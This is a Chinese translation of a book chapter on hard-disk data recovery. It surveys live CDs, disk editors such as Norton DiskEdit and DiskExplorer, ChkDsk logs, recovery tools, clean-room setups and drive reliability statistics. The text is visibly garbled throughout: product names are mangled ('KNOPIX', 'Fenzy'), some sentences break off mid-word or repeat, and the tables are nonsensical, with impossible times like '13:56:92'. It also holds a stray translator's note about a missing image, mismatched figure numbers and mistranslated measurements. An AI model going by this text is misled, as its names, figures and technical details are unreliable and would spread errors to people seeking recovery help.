在 Windows XP 中，恢复控制台的想法得到了扩展和发展，最终导致了 Windows PE 的诞生。Windows PE 是一个精简的 Windows XP 版本，能够从 CD 启动并运行 GUI 应用程序。它消除了对第二块硬盘的需求。

Windows PE 是一个稍微精简的 Windows XP 版本，能够从 CD 启动并运行 GUI 应用程序。它消除了对第二块硬盘的需求。

## 运行式 Linux

在最近，出现了许多可以直接从 CD 启动且无需安装到硬盘的 Linux 发行版。它们都非常适合数据恢复。然而，并不是所有的发行版都适用于这一目标。因此，在本节中，我将对这些发行版进行简要概述。

- KNOPIX 3.7 —— 在我看来，这个发行版是最好的。它基于 GNU/Debian。它只需要一张磁盘，却包含了可能需要的所有内容：磁盘工具、编译器以及办公软件。004，出版了一本佳作《PIX Hacks》，书中包含了许多专注于数据问题的章节。PIX 可以从这里获取（例如 http://www.opix.net/get/）。
- Fenzy 0.3 —— 这个发行版基于 FreeBSD FreeBSD。它包含了一些针对 ext2fs 的磁盘工具，尽管 BSD 使用的主要文件系统是 Unix 文件系统/快速文件系统（UFS/FFS），且对 ext2fs 的支持有限。然而，这张光盘适用于恢复操作，可以推荐给每个 BSD 粉丝。
- SuSE 9.2 —— 这是一个糟糕的发行版（依我拙见）。它需要两张磁盘（一张带有 K 桌面环境 KDE，另一张带有 GNU 网络环境 GNOME）。它要求不少于 256 MB 的内存（尽管 KDE 版本只需要 220 MB）。它运行很慢，除了一些办公软件碎片之外，不包含任何有用的东西。

### 选择拷贝介质

那些要恢复的硬盘可以复制到一包软盘的时代早已过去。现

实用程序（包括它们的控制台实现）需要 Windows PE 或 Bart PE Builder，后者无法挂载损坏的 NTFS 磁盘。在某些磁盘上，NTFS 驱动器会挂起或导致蓝屏（BSOD）。

标准的恢复控制台、NTFSSDS 以及 Active@Data Recovery Boot Disk 仅支持软盘和 IDE 驱动器。此外，后两种工具的演示版要求目标磁盘格式化为 FAT16/FAT32，且最大容量不能超过 8 GB。如果你需要恢复更大的磁盘，必须将其内容顺序复制到几块硬盘上。不用说，这是一个昂贵的解决方案。遗憾的是，数据恢复领域没有廉价的解决方案。

# 磁盘编辑器

真正的高手直接在磁盘编辑器中恢复损坏的磁盘结构，而不是依赖自动化实用程序（他们自己开发的自定义除外）。因为没有人知道商业恢复工具会对用户玩什么花招。因此，我建议你采取同样的方法，最关注手动恢复。因为磁盘编辑器将是你的主要工具，它必须是一个界面良好的编辑器；否则，数据恢复将变成一项原本有趣工作的痛苦。

来自赛诺克著名的 Norton Editor（或 DiskEdit，见图 2.2 和 2.3）是 IBM PC 历史上创建最好的编辑器，至今尚未被任何工具超越。方便的导航、以可读形式查看内部服务结构以及强大的文本搜索能力，极大地简化了恢复程序，并将数据恢复专业人员从所有日常工作中解放出来。这位老兵依然在役中。当然，它不是在 Windows NT 下启动的；但在 MS-DOS 和 Windows 9x 下运行完美，继承了 BIOS 对最大允许磁盘尺寸（8 GB）的所有限制。然而需要提到，任何在 Windows 9x 等多任务环境中尝试恢复磁盘可能会导致与预期完全相反的结果。尽管如此，这与 NTFS 分区无关。Windows 9x 不支持 NTFS，也不会在为此文件系统格式化的分区上写入任何内容。

# 磁盘编辑器

| 对象 | 编辑 | 链接 | 查看 | 信息 | 工具 | 帮助 | 4 | 5 | 6 | 7 | 8 |
|---|---|---|---|---|---|---|---|---|---|---|---|
| 扇区 1 | | | | | | | | | | | | |
| 9 | 10 | 11 | 12 | 13 | | | 14 | 15 | 16 | | | |
| 17 | 18 | 19 | 20 | 21 | | | 22 | 23 | 24 | | | |
| 25 | 26 | 27 | 28 | 29 | | | 30 | 31 | 32 | | | |
| 33 | 34 | 35 | 36 | 37 | | | 38 | 39 | 40 | | | |
| 41 | 42 | 43 | 44 | 45 | | | 46 | 47 | 48 | | | |


| 49 | 50 | 51 | 52 | 53 | | | 54 | 55 | 56 | | | |
| 57 | 58 | 59 | 60 | 61 | | | 62 | 63 | 64 | | | |
| 65 | 66 | 67 | 68 | 69 | | | 70 | 71 | 72 | | | |
| 73 | 74 | 75 | 76 | 77 | | | 78 | 79 | 80 | | | |
| 81 | 82 | 83 | 84 | 85 | | | 86 | 87 | 88 | | | |
| 89 | 90 | 91 | 92 | 93 | | | 94 | 95 | 96 | | | |
| 97 | 98 | 99 | 100 | 101 | | | 102 | 103 | 104 | | | |
| 105 | 106 | 107 | 108 | 109 | | | 110 | 111 | 112 | | | |
| 113 | 114 | 115 | 116 | 117 | | | 118 | 119 | 120 | | | |
| 121 | 122 | 123 | 124 | 125 | | | 126 | 127 | 128 | | | |
| 129 | 130 | 131 | 132 | 133 | | | 134 | 135 | 136 | | | |
| 137 | 138 | 139 | 140 | 141 | | | 142 | 143 | 144 | | | |
| 145 | 146 | 147 | | | | 148 | 149 | | 15 | | 15 | |
| | | | | | | | | | | | | |

图 Norton Disk Editor 显示 FAT

| 对象 | 编辑 | 链接 | 查看 | 信息 | 工具 | 帮助 | 更多 | 扩展 | 名称 | 日期 | 时间 | A | R | S | H | D | U |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 扇区 201 | | | | | | | | | | | | | | | | | | |
| MS-DRIVE | | | | | | | | | 8-12-98 | 1:09 | | | | | | |
| COMMAND | | | | | | | | | 94252 | 5-05-03 | 21:22 | | | | | | |
| EXTRACT | | | | | | | | | 40694 | 12-20-03 | 22:57 | | | | | | |
| MOUSE | | | | | | | | | | | | | | | | | | |
| UNPACK | | | | | | | | | | | | | | | | | | |
| USB | | | | | | | | | | | | | | | | | | |
| ZIP | | | | | | | | | | | | | | | | | | |
| TEMP | | | | | | | | | | | | | | | | | | |
| BAT | | | | | | | | | | | | | | | | | | |
| ROMEN | | | | | | | | | | | | | | | | | | |
| FILE | | | | | | | | | | | | | | | | | | |
| ATTACH | | | | | | | | | | | | | | | | | | |
| EDIT | | | | | | | | | | | | | | | | | | |
| PC | | | | | | | | | | | | | | | | | | |
| FIND | | | | | | | | | | | | | | | | | | |
| KEY | | | | | | | | | | | | | | | | | | |
| NTFS | | | | | | | | | | | | | | | | | | |
| WRITE | | | | | | | | | | | | | | | | | | |

# 第 2 章：核心工具



| 名称 | 大小 | 日期 | 最后一个簇 | 属性 |
| --- | --- | --- | --- | --- |
| 0000003 | 54 bytes | 索引分配 | 2005/11/30 24:26:58 AM | 003000 | 10 20 38 80 |
| 0000456 | 44 bytes | 文件条目 | 2005/11/30 24:26:58 AM | 003000 | 10 20 38 80 |
| 0291458 | 44 bytes | 文件详情 | 2005/11/30 24:26:58 AM | 38B9F6 | 10 30 80 |
| 0000068 | 512 bytes | 引导记录 (NTFS) | 2005/11/30 24:26:58 AM | 09BFE6 | 10 30 80 |
| 0000069 | 512 bytes | 卷记录 | 2005/11/30 24:26:58 AM | 671996A | 10 30 80 |
| 0291446 | 44 bytes | 父级目录 | 2005/11/30 24:26:58 AM | 09BFE6 | 10 30 80 |
| 0291446 | 44 bytes | 文件条目 | 2006/11/25 13:56:92 PM | A16998 | |
| 0291468 | 44 bytes | 父级目录 | 2005/11/30 24:26:58 AM | 38A706 | 10 30 80 |
| 0291470 | 44 bytes | 父级目录 | 2005/11/30 24:26:58 AM | 000000 | 10 30 80 |
| 0000018 | 44 bytes | 文件条目 | 2005/11/30 24:26:58 AM | 0192EE | |
| 0000012 | 44 bytes | 父级目录 | 2005/11/30 24:26:58 AM | | |
| 0291474 | 44 bytes | 文件条目 | 2005/11/30 24:26:58 AM | | |

图 2-8.DiskExplorer 以紧凑格式显示 MFT



图 2.9.DiskExplorer 以扩展格式显示 MFT

以可读格式显示所有主要的 NTFS 数据结构，挂载虚拟磁盘，处理硬盘和 CD 镜像，从任何 MFT 记录中恢复已删除的文件，并复制文件和整个目录（前提是之前已以文本或十六进制格式查看过它们）。此功能列表远非完备。编辑器拥有方便的前后向导航系统（大致与浏览器或 IDA Pro 类似，甚至支持超链接）。此外，DiskExplorer 提供了丰富的热键，支持跳转历史，并配备了针对主结构（INDEX、MFT、Partition）的强大搜索系统。还支持搜索当前扇区的引用，以及通过 TCP/IP 连接、局域网连接或直接线连接远程恢复磁盘。所有数值数据均以两种进制显示——十进制和十六进制。

这是我调查文件系统和恢复丢失数据的主要且最喜欢的工具。即使是对这个强大的工具进行浅表接触也能令人欣喜。DiskExplorer 是一款商业产品，免费提供的试用版缺乏写入磁盘的能力。有两个不同的版本：一个支持 NTFS (`http://www.runtime.org/`)，另一个支持 FAT。此外，还有几个用于 Bart Builder 的插件可以从 Runtime Sector Inspector 下载。这是一个用于从文件中读取和写入单个扇区的非交互式工具（图 2.10）。该工具支持逻辑寻址（LBA）和柱面-头部（CHS）寻址。如果不带参数，它会显示解码后的表以及扩展分区和引导扇区。磁盘编辑通过任何合适的十六进制编辑器进行，并将修正后的扇区写入磁盘。这种方法缓慢且不便；然而，Sector Inspector 是唯一支持恢复控制台（Recovery Console）的编辑器。正因如此，有时它是必不可少的。

(`C:\Program Files\Windows Resource Kits\...`)

与 Windows NT 的类似程序相比，适用于 Linux 数据恢复的程序少得多。此外，可用工具远非完美。因此，你要么自己开发所需的工具，要么使用 `lde`。在 Linux 下，最流行的磁盘编辑器是 `lde`，它包含在所有“正版”发行版中，如 KNOPPIX。该工具可以以批处理和交互模式运行。在批处理模式下，通过命令行进行控制，这允许某些操作完全自动化。


开始使用 `Lde` 时，你可能会有一种奇怪的感觉：例如，我感觉像是一个从 IBM PC 迁移到 ZX Spectrum 的尼安德特人，现在必须摩擦产生火。尽管如此，这种感觉会随着时间消失，因为程序员都很随和并很快适应一切。作为一种方案，你可以从“应急”磁盘启动，然后从 `Windows PE`（从 CD-ROM 启动无需安装在硬盘上的 Windows NT 版本）运行 `Norton Disk Editor` 或 `RuntimeExplorer`。一方面，这很方便（因为你可以使用熟悉的界面和其他优秀功能）。另一方面，`Norton Disk Editor` 和 `DiskExplorer` 都不支持 `ext2fs`/`ext3fs`；因此，你需要手动解码所有数据结构。

## UNIX 与 Windows 不同

UNIX 与 Windows 不同。特别是在 UNIX 中，可以进行编辑。例如，你可以使用任何十六进制编辑器打开相应的磁盘设备（如 `/dev/sdb1`），并按意愿进行编辑。早期的黑客可能会回忆起 MS-DOS 青春时代，当既没有 `HIEW` 也没有 `QVIEW` 时，他们使用 `Norton Disk Editor` 修正执行文件以“切掉”不需要的 7xh。换句话说，十六进制编辑器被用来获取结果吗？在 UNIX 中，相反，十六进制编辑器被用来编辑代码。



图 2.13. 十进制编辑器

你应该选择哪种编辑器？通常，这取决于个人喜好（注意，我指的不仅是你个人的喜好，还包括发行版编译者的喜好）。有些人倾向于使用 `hexed` 控制台应用程序（图 2.12），另一些用户喜欢 `khexedit` GUI 应用程序（图 2.13），还有人选择 `BIEW`（一个著名的 `HIEW` 编辑器的克隆版本，功能受限）。

要发明一个比 Windows 发行版中内置“医生” `ChkDsk` 更离谱的东西简直极其困难（图 2.14）。即使是好莱坞的作家可能也无法完成这项任务。对于这个“工具”来说，错误报告系统被到了最低，因为医生只报告检测到的错误，但拒绝告知用户所检测到的错误的性质、原因以及它将要修复什么。因此，这种修复的后果可能是极其糟糕的。

`CHDSK` 正在验证文件（阶段 1/3）...

文件验证完成。

`CHDSK` 正在验证索引（阶段 2/3）...

索引验证完成。

`CHDSK` 正在验证安全描述符（阶段 3/3）...

安全描述符验证完成。

```
33551289 MB 总磁盘空间。
4363872 KB 位于坏文件。
2168 KB 位于 484 个索引。
0 KB 位于坏扇。
74733 KB 系统正在使用。
55536 KB 被日志文件占用。
19432516 磁盘可用。
4096 字节每个分配单元。
5887282 磁盘总分配单元。
4784379 磁盘分配单元。
```

图 2.14. `ChkDsk` 正在工作

有很多报道的案例显示 `ChkDsk` 将卷“医治”导致死亡（列表 2.1）。尽管如此，该工具成功纠正错误并执行恢复操作的案例仍然更多。该工具通常由新手或管理员用于对硬盘分区进行定期检查，并修复文件系统遭受的轻微损坏。在列表 2.1 的程序之后，我丢失了许多文件。

### 列表 2.1. 一个实际上健康、仅丢失一个文件记录的磁盘的“治愈”日志

你的其中一个磁盘需要检查一致性。你可以取消磁盘检查，但强烈建议你继续。

Windows 现在正在检查磁盘。

文件 `Oxla` 中的索引 `$I30` 的 `VCN` `0x9` 与

存储在索引缓冲区中的 `VCN` `0x0` 不一致。

正在纠正文件 26 索引 `$I30` 的错误。

文件 `Oxla` 中的索引位图 `$I30` 是错误的。

正在纠正文件 26 索引 `$I30` 的错误。

长度为 `0x70` 的当前索引条目的向下指针无效。

```
0b 01 00 00 00 00 01 00 70 58 00 01 00 00 00 .......P.X......
1a 00 00 00 00 00 01 00 00 c0 4c 5b 5a 94 8bf 01 ................L.Z......
c0 00 4c 5b 94 8bf 01 3a 15 55 97 ea c4 01 ......L.Z.......U
f0 54 e1 71 ea c4 01 00 01 00 00 00 00 .T.......
22 02 01 00 00 00 20 00 00 00 00 "....
Ob 03 63 00 5f 06  c 22  000    6666 000000.....
eeee  0           000 ff ff ff ff ff.n.s.
1f 01 00 00 00 00 01 00 70 54 01 00 00 ......p.T........
```

正在文件 26 中排序 `$i30`

清理驱动器上的轻微不一致。

`CHKDS` 正在恢复丢失的文件。

正在向目录 26 恢复孤文件 `c_037.nls` (253)。

正在向目录 26 恢复孤文件 `c_10000.nls` (254)。

正在向目录 26 恢复孤文件 `c_10079.nls` (255)。

正在向目录 26 恢复孤文件 `c_10266.nls` (256)。

正在向目录 26 恢复孤文件 `c_1250.nls` (257)。

正在向目录 26 恢复孤文件 `c_1251.nls` (258)。

正在向目录 26 恢复孤文件 `c_1252.nls` (259)。

正在向目录 26 恢复孤文件 `c_1253.nls` (260)。

正在向目录 26 恢复孤文件 `c_1254.nls` (261)。

正在向目录 26 恢复孤文件 `c_1255.nls` (262)。

正在向目录 26 恢复孤文件 `c_1256.nls` (263)。

正在向目录 26 恢复孤文件 `c_1257.nls` (264)。

正在向目录 26 恢复孤文件 `c_1258.nls` (265)。

正在向目录 26 恢复孤文件 `c_20261.nls` (266)。

正在向目录 26 恢复孤文件 `cryptexdt.dll` (412)。

正在向目录 26 恢复孤文件 `c_ctl3dv2.dll` (422)。

正在向目录 26 恢复孤文件 `c_ctype.nls` (423)。

正在向目录 26 恢复孤文件 `c_CRSRV.DLL` (880)。

正在向目录 26 恢复孤文件 `c_cryptdll1.dll` (2206)。

正在向目录 26 恢复孤文件 `c_ctl3d3.dll` (2441)。

正在向目录 26 恢复孤文件 `c_10007.nls` (2882)。

正在向目录 26 恢复孤文件 `c_10017.nls` (2883)。

正在向目录 26 恢复孤文件 `c_20127.nls` (2916)。

正在向目录 26 恢复孤文件 `c_csseqchk.dll` (4019)。

正在向目录 26 恢复孤文件 `c_cscript.exe` (4335)。

正在向目录 26 恢复孤文件 `cscdll.dll` (4661)。

正在向目录 26 恢复孤文件 `CRYPTDLG.DLL` (5125)。

正在向目录 26 恢复孤文件 `cryptsvc.dll` (5127)。

正在向目录 26 恢复孤文件 `cscui.dll` (5136)。

正在向目录 26 恢复孤文件 `CSRSS.EXE` (5144)。

正在向目录 26 恢复孤文件 `VID32.QTC` (17408)。

正在向目录 26 恢复孤文件 `c_10001.nls` (19801)。

正在向目录 26 恢复孤文件 `c_20290.nls` (19805)。

正在向目录 26 恢复孤文件 `c_20000.nls` (19811)。

正在向目录 26 恢复孤文件 `CSH.DLL` (21395)。

正在向目录 26 恢复孤文件 `CRYPT32.DLL` (38161)。

正在向目录 26 恢复孤文件 `CRYPTNET.DLL` (38162)。

正在向目录 26 恢复孤文件 `CRYPTUII.DLL` (38260)。

清理文件 `0x` 索引 `$SII` 中的 48 个未使用的索引项。

清理文件 `0x` 索引 `$SII` 中的 48 个未使用的索引项。

清理安全描述符。

主文件表 (`MFT`) 标记为分配的空间。

Windows 已修复了文件系统。



图 2.15. 正在运行的 `GetDataBack` 工具

## iRecover


这款由荷兰 DataRecovery 公司开发的程序是一款非常出色的半自动检测器，具有广泛的设置（图 2.16）。该工具支持动态卷卷，并允许你手动指定扫描参数。`iRecover` 是一个可靠的工具，即使在处理受损严重的分区时也不会卡死。它的主要缺点是对于被恢复磁盘的导航操作不方便，这在处理包含数百万文件的大磁盘时尤为明显。与它的竞争对手 `GetDataBack` 一样，`iRecover` 工具并不修复任何东西；它只是简单地尝试从不存在中救回文件。尽管如此，我认为 `iRecover` 是我工具箱最好的自动恢复工具之一（我自己也编写了一些工具，通常通过 `prompt` 来恢复特定的磁盘，在它们安全地进入 `/dev/null` 之后，就像快餐一样）。该程序的演示版可以从 http://www.diydatarecovery.nl/downloads/Demo/iRecoverSetup.exe 下载。


图 2.16. `iRecover` 的进度指示

来自 Ontrack Data Recovery (http://www.ontrack.com) 的 `EasyRecovery Professional` 看起来看起来不错（图 2.17）。然而，试验表明，它在全自动模式下运行时是一个相当愚笨的工具。它的智能水平仅处于初级。我无法诚实地推荐使用这个工具（除非你需要恢复一个最近格式化的卷，且你没有向其中写入任何有价值的内容）。


检查你想要恢复的文件，选择 `Next` 进入目标选择屏幕。选择 `Back` 返回分区选择屏幕。选择 `Cancel` 退出工具。

| 名称 | 大小 | 日期 | 状态 |
|---|---|---|---|
| Dh10.doc | 542.00 KB | 2006/1/30 | DX |
| Dh11.doc | 162 Bytes | 2006/1/30 | D |
| Dh9.doc | 162 Bytes | 2006/1/30 | D |
| Dh12.wb | 162.50 KB | 2003/2/10 | DX |

**图 2.17.** `EasyRecovery` 虽有很多花里胡哨的特性，但没有实用价值

`Stellarinfo` 发布了一个名为 `Phoenix` 的工具，用于数据恢复，并支持目前几乎所有流行的文件系统，包括 UFS。该工具的演示版可以从 http://www.stellarinfo.com/spb.exe 下载。请特别注意文件扩展名。这是一个可执行文件。根据平台支持的标识，它是为 BSD 设计的。好吧，在 BSD 下尝试一下吧，你会发现它在该系统下无法运行。向你的系统中安装一个带有可用 Windows 的额外磁盘，并在上面安装 `Phoenix`。该程序在 Windows PE 下无法工作。在 Windows 2000 下，它可以启动；然而，当尝试分析已知健康分区时，它会崩溃并显示关键错误消息。我没有在其他系统上测试过它。我提到这个工具有两个原因：第一，你必须知道它的存在（但不要相信它的能力）。第二，可能有人仍然在使用它并发现它很有帮助。

这是一组用于手动恢复的免费软件工具集，可以从 http://www.sleuthkit.org 下载。该网站还包含一份简短手册（http://www.sleuthkit.org/sleuthkit/docs/ref_fs.html）。不幸的是，奇迹并不罕见。

这是另一个根据文件头特征扫描空空间以恢复文件的免费工具。与它的先驱相比，这是一个巨大的进步。它并不直接与文件系统交互；相反，它处理已知格式的文件。其最新版本可以在以下地址找到：http://foremost.sourceforge.net/

这款工具 http://frolov.pp.ru/projects/html#crashundo 我过的最强大的 NTFS 数据恢复工具。即使对于 Windows 拒绝挂载的磁盘它也能工作。它根据签名重建系统信息，即使 MFT 损坏严重也能重建目录树。即使包含父目录的一个或多个分支被破坏它也能重建。

这是两个用于数据恢复俄罗斯程序。

这是两个用于数据恢复俄罗斯程序。

文件系统调试器是允许直接读取和编辑文件系统结构的工具。它们对于标准工具失效的高级用户有用。

配备洁净室是任何严肃恢复公司的强制性要求。此类房间对应 100 类，这意味着每立方英尺内 0.5 毫米的灰尘不能超过 10 个。这种配置描述了一个花费 30,000 美元的巨大工程结构。维修硬盘的小型企业通常限于“洁净室”，价格大约便宜 10 倍。然而，对于业爱好者来说，这仍然太贵了。可以没有洁净室，也可以自己建造。与常见的观点和恐惧不同，一个不充满灰尘且配备空调的普通房间就足够了（有时，不需要空调）。此外，非常建议购买离子机，它能使灰尘聚集。灰尘不是流在房间里，而是积在地板上，可以通过通风系统轻松清除。高质量离子机价格在 500 到 1000 美元之间；然而，如果需要，你可以自己设计。在执行修复操作之前，必须关闭离子机。

典型的洁净室设计如图 2.19 所示。

[注：原文此处缺少图片路径 img/1c3...19.png，译文保持对应关系*]

图 2.18. 正在运行的 `debugfs` 文件系统

在完成所有操作后，必须关闭磁盘。在此之前，已使用压缩空气气瓶清理了掉落在磁盘上的灰尘，这种气瓶是专为清洗燃烧发动机设计的，可以在汽车用品商店购买。第一股气流应向侧面释放，不要对着磁盘，因为在气瓶存储过程中会产生冷凝。之后，再将气流导向磁盘。不要摇晃气瓶；否则你会把泡沫喷在磁盘上，导致其彻底损坏。若要观看一段演示在执行此操作时如何处理的视频，请访问 http://pc3k.sru.ru/video/video03_N40P_disk_swap.avi (157 MB)。该视频由 ACE Lab 首席工程师 Sergey Yatsenko (http://www.acelab.ru) 录制。

即使在无尘室环境中，长时间开启密封区域进行操作也是非常不理想的（尽管如果能确保达到所需的洁净度等级，这是可以的）。

空气中的尘埃会与高速旋转的盘片碰撞，并可能迅速破坏磁层（图 2.20）。如果磁盘具有玻璃基板（例如 IBM DTLA 磁盘），甚至可能出现指示器。你可能会反驳说，当打开密封外壳时，尘埃还是会掉进去。关上外壳后这些尘埃就会消失吗？实际上，密封外壳内循环过滤器，它能主动吸附尘埃，迅速将其浓度降低到可接受的水平。如果你在打开的磁盘上进行作业，尘埃浓度将保持恒定。此外，还有另一个可能是：关闭的盖子会略微变形密封外壳；因此，如果没有盖子，磁盘读取可能会不稳定，并需要多次重复。安装盖子至关重要。启动将读取速率输出到屏幕的实用程序后，尝试调整螺栓以获得最均匀的读取曲线。

在无尘室外打开的磁盘其剩余寿命已寥寥无几，而且读取数据需要很长时间，特别是当您使用不支持直接内存访问/超直接内存访问（`DMA/UDMA`）模式的软件硬件时。因此，最好立即将磁盘连接到计算机并优先读取至关重要的数据。不要忘记将重复计数器设置为 3 倍。这意味着必须在第一次尝试时读取所有能读到的内容，然后再读取未读取到的扇区。

专业公司的另一大王牌是可以使用专业的软硬件组合，例如 ACE Lab 的 `PC-3000`（图 2.21）。

| 项目 | 尺寸 |
| :--- | :--- |
| 人头发 | 直径约 0.003 英寸 |
| 尘埃颗粒 | 约 0.00150 英寸 |
| 飞行高度 | 英寸的3–7百万分之一 |
| 记录介质 | |


图 2.20. 对于硬盘而言，最小尘埃颗粒的坠落等于陨石的坠落



**图 2.21.** 安装在计算机中的 `PC-3000` 设备

从硬件角度来看，这是一个普通的 IDE 控制器，支持程序输入/输出 (`PIO`) 和部分 `DMA/UDMA` 模式。它配有一个电子钥匙（通常基于功率场效应晶体管），允许你在不关闭计算机电源的情况下连接和断开硬盘，这非常方便。



**图 2.22. 拆卸平面连接的技术**




你将最宝贵的物品——数据——寄托给了硬盘。我的朋友和同事经常问我，应该选择哪种厂家？哪种型号是最佳选择？硬盘的可靠性是最重要的标准，其他因素并不重要（除非是噪音的话）。硬盘不能在没有任何预警的情况下损坏。那种伴随着奇怪声音和坏道数量加速增长的缓慢衰减是不被考虑的，因为在这种情况下，每个人都能清楚地知道有必要更换硬盘。然而，我经常尝试解决可靠性问题，但往往无济于事。硬盘没有可靠性。相反，它们只有保修证。仅此而已。你不应该根据文档中指定的几百小时平均故障间隔时间（MTBF）来做考虑，因为厂家不对该数值的准确性负责。

事实上，并没有好坏之厂商之分。每个品牌都有运气不好的型号。无论哪个厂家，在每 1000 个硬盘的批次中，都有 1 到 10 个硬盘在保修期结束之前就已经崩溃，即使这些硬盘被定位为高端服务器型号。单个硬盘的寿命取决于概率——某些样品存活并经受，而一些则死去。

更准确的说法应该是容易崩溃的糟糕型号。例如，臭名昭著的富士一切（Fujitsu）MPG 系列，其使用了修改基底的 Cirrus Logic 芯片，随着时间的推移会产生寄漏。该系列几乎所有的硬盘都在 2 年内坏了。另一个例子是考虑 IBM DTLA，其臭名昭著的密封块设计会导致性的接触不良，从而导致写入操作过早终止。扇区的一部分被写入，而另一部分没有。结果是，硬盘产生了虚拟坏道（没有物理缺陷，但校验和不匹配）。虚拟坏道是可读的；然而，它们无法恢复，因为数据没有完全写入。我有过三个这样的硬盘。第一块在 2 个月内就坏了；我修复了并由于不可靠将其丢弃了。我另外两个相同型号的硬盘仍在成功运行。尽管如此，无法计算我的朋友和同事有多少硬盘崩溃了。每个硬盘的生死取决于盲目的概率。许多因素也会影响硬盘的命运，例如电源模块的质量以及震动的存在与否。

收集硬盘故障统计很难。故障的绝对数量本身用。必须考虑特定型号的普及程度运行条件。SCSI 硬盘比 IDE 硬盘可靠，仅仅是因为它们安装在服务器上，实际上从不关机。很多故障发生在硬盘开启或关闭时。此外，SCSI 硬盘几乎不会过热，也不会作为便携式设备使用。

负责数据恢复的俄罗斯 Derstein 数据恢复中心提供了关于官方注册硬盘故障的有趣统计信息。表 3.1 和 3.2 提供了这些信息的节选。

## 表 3.1 硬盘故障统计，按厂家划分

| 厂家 | 注册故障数 |
|---|---|
| 富士 (Fujitsu) | 498 |
| IBM | 393 |
